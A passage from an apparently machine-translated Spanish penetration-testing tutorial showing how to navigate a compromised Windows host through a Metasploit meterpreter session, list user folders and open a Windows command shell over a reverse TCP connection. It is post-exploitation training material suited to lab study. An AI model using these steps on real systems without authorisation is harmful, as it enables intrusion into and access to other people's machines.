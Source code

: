 ### **MSF - Navegación de meterpreter**

Cargas útiles

```
meterpreter > cd Users
meterpreter > ls

Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   8192  dir   2017-07-21 06:56:23 +0000  Administrator
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  All Users
40555/r-xr-xr-x   8192  dir   2009-07-14 03:20:08 +0000  Default
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  Default User
40555/r-xr-xr-x   4096  dir   2009-07-14 03:20:08 +0000  Public
100666/rw-rw-rw-  174   fil   2009-07-14 04:54:24 +0000  desktop.ini
40777/rwxrwxrwx   8192  dir   2017-07-14 13:45:33 +0000  haris

meterpreter > shell

Process 2664 created.
Channel 1 created.

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>

```

`Channel 1`se ha creado, y nos colocamos automáticamente en la CLI para esta máquina. El canal aquí representa la conexión entre nuestro dispositivo y el host de destino, que se ha establecido en una conexión TCP inversa (desde el host de destino a nosotros) utilizando un stager y etapa de meterpreter. El Stager se activó en nuestra máquina para esperar una solicitud de conexión inicializada por la carga útil de la etapa en la máquina de destino.

En algunos casos, mudarse a un caparazón estándar en el objetivo es útil, pero Meterpreter también puede navegar y realizar acciones en la máquina de víctimas. Entonces vemos que los comandos han cambiado, pero tenemos el mismo nivel de privilegio dentro del sistema.

### **MSF - Windows CMD**

Cargas útiles

```
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>dir

dir
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of C:\Users

21/07/2017  07:56    <DIR>          .
21/07/2017  07:56    <DIR>          ..
21/07/2017  07:56    <DIR>          Administrator
14/07/2017  14:45    <DIR>          haris
12/04/2011  08:51    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)  15,738,978,304 bytes free
```